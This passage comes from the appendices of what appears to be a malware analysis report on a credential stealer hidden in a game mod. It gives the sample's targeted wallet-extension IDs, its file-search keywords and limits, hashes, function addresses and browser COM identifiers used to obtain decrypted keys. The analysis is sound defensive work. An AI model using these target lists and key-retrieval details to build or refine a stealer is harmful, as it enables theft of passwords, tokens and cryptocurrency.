| Coin98 | `aeachknmefphepccionboohckonoeemg` |
| Coinbase | `hnfanknocfeofbddgcijnmhnfnkdnaad` |
| Core | `agoakfejjabomempkjlepdflaleeobhb` |
| Crocobit | `pnlfjmlcjdjgkddecgincndfgegkecke` |
| Equal | `blnieiiffboillknjnepogjhkgnoapac` |
| Ever | `cgeeodpfagjceefieflmdfphplkenlfk` |
| ExodusWeb3 | `aholpfdialjgjfhomihkjbmgjidlcdno` |
| Fewcha | `ebfidpplhabeedpnhjnobghokpiioolj` |
| Finnie | `cjmkndjhnagcfbpiemnkdpomccnjblmj` |
| Guarda | `hpglfhgfnhbgpjdenjgmdgoeiappafln` |
| Guild | `nanjmdknhkinifnkgdcggcfnhdaammmj` |
| HarmonyOutdated | `fnnegphlobjdpkhecapkijjdkgcjhkib` |
| Iconex | `flpiciilemghbmfalicajoolhkkenfel` |
| JaxxLiberty | `cjelfplplebdjjenllpjcblmjkfcffne` |
| Kaikas | `jblndlipeogpafnldhgmapagcccfchpi` |
| KardiaChain | `pdadjkfkgcafgbceimcpbkalnfnepbnk` |
| Keplr | `dmkamcknogkgcdfhhbddcghachkejeap` |
| Liquality | `kpfopkelmapcoipemfendmdcghnegimn` |
| MEWCX | `nlbmnnijcnlegkjjpcfjclmcfggfefdm` |
| MaiarDEFI | `dngmlblcodfobpdpecaadgfbcggfjfnm` |
| Martian | `efbglgofoippbgcjepnhiblaibcnclgk` |
| Math | `afbcbjpbpfadlkmhmclhkeeodmamcflc` |
| Metamask | `nkbihfbeogaeaoehlefnkodbefgpgknn` |
| Metamask2 | `ejbalbakoplchlghecdalmeeeajnimhm` |
| Mobox | `fcckkdbjnoikooededlapcalpionmalo` |
| Nami | `lpfcbjknijpeeillifnkikgncikgfhdo` |
| Nifty | `jbdaocneiiinmjbjlgalhcelgbejmnid` |
| Oxygen | `fhilaheimglignddkjgofkcbgekhenbh` |
| PaliWallet | `mgffkfbidihjpoaomajlbgchddlicgpn` |
| Petra | `ejjladinnckdgjemekebdpeokbikhfci` |
| Phantom | `bfnaelmomeimhlpmgjnjophhpkkoljpa` |
| Pontem | `phkbamefinggmakgklpkljjmgibohnba` |
| Ronin | `fnjhmkhhmkbjkkabndcnnogagogbneec` |
| Safepal | `lgmpcpglpngdoalbgeoldeajfclnhafa` |
| Saturn | `nkddgncdjgjfcddamfgcmfnlhccnimig` |
| Slope | `pocmplpaccanhmnllbbkpgfliimjljgo` |
| Solflare | `bhhhlbepdkbapadjdnnojkbgioiodbic` |
| Sollet | `fhmfendgdocmcbmfikdcogofphimnkno` |
| Starcoin | `mfhbebgoclkghebffdldpobeajmbecfk` |
| Swash | `cmndjbecilbocjfkibfbifhngkdmjgog` |
| TempleTezos | `ookjlbkiijinhpmnjffcofjonbfbgaoc` |
| TerraStation | `aiifbnbfobpmeekipheeijimdpnlpgpp` |
| Tokenpocket | `mfgccjchihfkkindfppnaooecgfneiii` |
| Ton | `nphplpgoakhhjchkkhmiggakijnkhfnd` |
| Tron | `ibnejdfjmmkpcnlpebklmnkoeoihofec` |
| TrustWallet | `egjidjbpglichdcondbcbdnbeeppgdph` |
| Wombat | `amkmjjmmflddogmhpjloimipbofnfjih` |
| XDEFI | `hmeobnfnfcmdkdcmlblgagmfpfboieaf` |
| XMRPT | `eigblbgjknlfbajkfhopmcojidlgcehm` |
| XinPay | `bocpokimicclpaiekenaeelehdjllofo` |
| Yoroi | `ffnbelfdoeiohenkjibnmadjiehjhajb` |
| iWallet | `kncchdigobghenbbaddojjnnaogfppfj` |

</details>

## Appendix B. Complete filename-search rules

<details>
<summary>Show every keyword, file extension, and excluded folder</summary>

**Keywords:** `account`, `password`, `passwd`, `pass`, `secret`, `seed`, `mnemonic`, `wallet`, `crypto`, `backup`, `token`, `credential`, `login`, `auth`, `2fa`, `mfa`, `recovery`, `private`, `key`, `phrase`, `paypal`, `bank`, `metamask`, `exodus`, `atomic`, `code`, `memo`, `credit`, `card`, `mail`, `address`, `phone`, `number`, `database`, `config`.

**Allowed extensions:** `.csv`, `.db`, `.doc`, `.docx`, `.gif`, `.jpeg`, `.jpg`, `.json`, `.kdbx`, `.key`, `.log`, `.mp4`, `.odt`, `.pdf`, `.pem`, `.png`, `.ppt`, `.pptx`, `.rtf`, `.txt`, `.webp`, `.xls`, `.xlsx`.

**Skipped directory names:** `.cache`, `.git`, `__pycache__`, `cache`, `node_modules`, `temp`, `tmp`, `venv`.

**Search folders:** Desktop, Documents, Downloads, OneDrive. **Limits:** 20 MiB (20,971,520 bytes) per file, 150 collected files per search folder, and a 15-second elapsed-time setting per search folder.

</details>

## Appendix C. SHA-256 hashes

| Component | SHA-256 |
|---|---|
| mod.jar | `20c189d88eb42023f6eb69145b8286f74b4a887b6a3a1fe9531691e899fae983` | 
| mod-deobfuscated.jar | `13b8c805fecc6dd558bbb0f0439312bab8ae238461d6dc6e24e2fe8dedd55999` |
| engine.png | `9fd6b3b123e38362f20f929f7c80ecccbf6c499822f15bd75105b35a850dc842` |
| hIds compressed chunk data | `45fd62af572623360fa676a28be2294ad6cd2392bfe8ddc42cdd2fce523c3016` |
| ZIP recovered from hIds | `1fdbc53b6039b52a14e23b09668ad01ad0ffe7e0dc41f87b3724c36df0d4efcc` |
| AppHost/app.pyd | `d03c42c275f0dbc617428441508c49ae1adcbbc95af4eeb094bca4e4f8943f3e` |
| AppHost/main.py | `bc87ec291523785fd9f8b1925e92dbe5aa71af4a9dd631c794fc14efd9e5afb1` |
| embedded browser DLL | `9910c262ea4d1779036a8dfb81aa013b7c0d64e5cb1b0c37e3136a6ae2914e00` |

## Appendix D. Function and module map

<details>
<summary>Show the key IDA function addresses</summary>

`native-function-catalog.json` contains all 208 recovered application addresses. The table below lists the main entry points for reviewing the findings in IDA. Compiler and runtime support functions are separate from the application logic.

| Database | Address | Role |
|---|---|---|
| app.pyd | `0x18000e3a0` | run - main collection and submission |
| app.pyd | `0x180009c40` | _submit_data - encrypted body |
| app.pyd | `0x18000bcc0` | app_submit_files - multipart upload |
| app.pyd | `0x180008390` | app_submit_logs - log upload |
| app.pyd | `0x18001ad80` | config.init |
| app.pyd | `0x180021030` | contract.fetch_domain |
| app.pyd | `0x180024cc0` | encrypt_submission |
| app.pyd | `0x180048310` | Chromium data aggregator |
| app.pyd | `0x180031c00` | Chromium passwords |
| app.pyd | `0x1800356b0` | Chromium cookies |
| app.pyd | `0x180038fa0` | Chromium cards/CVC |
| app.pyd | `0x18003cd80` | Chromium Google tokens |
| app.pyd | `0x18009a100` | Firefox master-key recovery |
| app.pyd | `0x18009e6c0` | Firefox passwords |
| app.pyd | `0x180081090` | Discord collection worker |
| app.pyd | `0x18007fd90` | Discord token validation |
| app.pyd | `0x1800bd700` | Minecraft files |
| app.pyd | `0x1800629e0` | Other credentials |
| app.pyd | `0x1800dc3b0` | Desktop wallet files |
| app.pyd | `0x180059b80` | Extension storage |
| app.pyd | `0x1800b6480` | Keyword file search |
| app.pyd | `0x1800cd440` | Screenshot wrapper |
| app.pyd | `0x1800d9390` | System information |
| app.pyd | `0x1800e37b0` | Enable DNS-over-HTTPS |
| app.pyd | `0x1800e4c30` | shard_post |
| app.pyd | `0x180114710` | App-bound key workflow |
| app.pyd | `0x180112170` | DLL injection |
| app.pyd | `0x180128f50` | Browser file-copy fallback |
| app.pyd | `0x180105150` | Start staging thread |
| app.pyd | `0x180102cf0` | Staging worker |
| app.pyd | `0x1800f7410` | Fernet-shaped AES-CBC decoder |
| app.pyd | `0x1801003a0` | Download and launch later app |
| browser DLL | `0x180001df0` | Process-attach worker launch |
| browser DLL | `0x180001890` | Pipe/COM key worker |
| browser DLL | `0x1800015d0` | Select browser and COM IDs |
| browser DLL | `0x180001390` | Request decrypted key bytes |
| browser DLL | `0x180001850` | Configure COM proxy |

</details>

## Appendix E. Browser DLL COM identifiers

<details>
<summary>Show the browser COM identifiers</summary>

These identifiers were recovered from constants in the DLL. They show which browser interfaces the sample requests; successful use on a particular machine was not tested. Addresses for the DLL and `app.pyd` refer to separate IDA databases, even though their image bases match.

| Browser | COM class ID | Interface ID | Alternate interface ID |
|---|---|---|---|
| Chrome | `708860e0-f641-4611-8895-7d867dd3675b` | `463abecf-410d-407f-8af5-0df35a005cc8` | `1bf5208b-295f-4992-b5f4-3a9bb6494838` |
| Brave | `576b31af-6369-4b6b-8560-e4b203a97a8b` | `f396861e-0c8e-4c71-8256-2fae6d759ce9` | `1bf5208b-295f-4992-b5f4-3a9bb6494838` |
| Edge | `1fcbe96c-1697-43af-9140-2897c7c69767` | `c9c2b807-7731-4f34-81b7-44ff7779522b` | `8f7b6792-784d-4047-845d-1782efbef205` |

</details>

## Appendix F. Contents of the evidence package

The evidence package contains:

- The complete sample and archive inventory.
- A comparison of the two JARs, with decompiled listings and bytecode for both.
- Original Java string arithmetic reduced to readable values without running the sample.
- The native application function catalog and pseudocode.
- The browser DLL function index, application pseudocode, and disassembly.
- Recovered constants and network indicators.
- The analysis report.

Executable samples and runtime binaries are excluded from the evidence ZIP. Annotated IDA databases for `app.pyd` and the browser DLL are separate review artifacts.

-thank you for reading (this took too long)
